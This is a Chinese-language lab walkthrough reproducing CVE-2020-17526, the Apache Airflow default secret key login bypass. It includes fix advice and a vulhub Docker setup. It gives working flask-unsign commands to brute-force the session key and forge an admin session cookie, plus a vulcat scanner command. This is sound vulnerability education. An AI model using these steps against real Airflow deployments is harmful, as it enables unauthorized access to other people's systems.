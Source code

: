# 💛 Apache Airflow 默认密钥导致的权限绕过

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Apache Airflow未授权访问<br><br>Apache Airflow默认密钥漏洞	|[ApacheAirflow](https://airflow.apache.org/)	|未授权访问	|CVE-2020-17526	|

|漏洞简介	|
|--	|
|Apache Airflow是一款开源的，分布式任务调度框架。<br>默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定webserver.authenticate=True来开启认证。<br><br>在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。	|

|参考链接	|
|--	|
|<ol><li><a href="https://vulhub.org/#/environments/airflow/CVE-2020-17526/">https://vulhub.org/#/environments/airflow/CVE-2020-17526/</a></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>修改[webserver] secret_key默认配置（修改默认密钥）</li><li>更新至最新版本：<a href="https://github.com/apache/airflow">https://github.com/apache/airflow</a></li></ol>	|

### 漏洞环境

使用[vulhub](https://github.com/vulhub/vulhub)搭建漏洞环境

```
git clone https://github.com/vulhub/vulhub
cd vulhub/airflow/CVE-2020-17526
docker-compose up -d
```

启动容器后，可以在8080端口看到Airflow登录页面

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/01.png" alt=""><figcaption></figcaption></figure>



### 漏洞复现-手工

抓取登录页面的数据包，查看Response
可以看到返回了Set-Cookie

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/02.png" alt=""><figcaption></figcaption></figure>


运行python的pip安装辅助工具flask-unsign

```shell
pip3 install flask-unsign[wordlist]

# 使用阿里云镜像，国内安装加速
pip3 install flask-unsign[wordlist] -i https://mirrors.aliyun.com/pypi/simple

# ！注意！我们需要的是命令行工具
pip3 install flask-unsign           # 这个是安装源代码
pip3 install flask-unsign[wordlist] # 这个是安装命令行工具
```

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/03.png" alt=""><figcaption></figcaption></figure>


安装完成之后，在命令行运行flask-unsign
如果看到工具提示信息，说明安装成功

```shell
flask-unsign
```

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/04.png" alt=""><figcaption></figcaption></figure>


然后运行以下命令，将Set-Cookie中的session参数传递给flask-unsign
flask-unsign会暴破session的加密密钥

```shell
flask-unsign -u -c <你的SESSION>

# 例如
flask-unsign -u -c eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiNzBhZmJhOGQ5ZmI2MDk5NGI2ZTk1YTkwZGUzYTBmZjE5ODA0YWY5YiJ9.ZAK0kQ.jSWDhcPF-n6f2V10PkCnNFUAekk
```

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/05.png" alt=""><figcaption></figcaption></figure>

如果暴破成功，会返回一个字符串
此处发现session的加密密钥为：temporary_key

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/06.png" alt=""><figcaption></figcaption></figure>

获得密钥之后，运行以下命令，伪造一个新的session，以便登录Airflow

```shell
flask-unsign -s --secret <你的密钥> -c "{'user_id': '1', '_fresh': False, '_permanent': True}"

# 例如
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/07.png" alt=""><figcaption></figcaption></figure>

获得伪造的session之后，将其添加到Cookie当中

```
Cookie: session=你伪造的SESSION
```

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/08.png" alt=""><figcaption></figcaption></figure>

然后刷新页面，成功进入后台
<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/09.png" alt=""><figcaption></figcaption></figure>



### 漏洞复现-vulcat

```shell
python3 vulcat.py -u <URL> -a airflow
```

如图，vulcat返回了默认密钥 以及 伪造的session

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/10.png" alt=""><figcaption></figcaption></figure>

将伪造的session添加到Cookie

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/11.png" alt=""><figcaption></figcaption></figure>

刷新页面，成功进入后台

<figure><img src="../../../static/imgs/vulns-apache-airflow/cve-2020-17526/12.png" alt=""><figcaption></figcaption></figure>


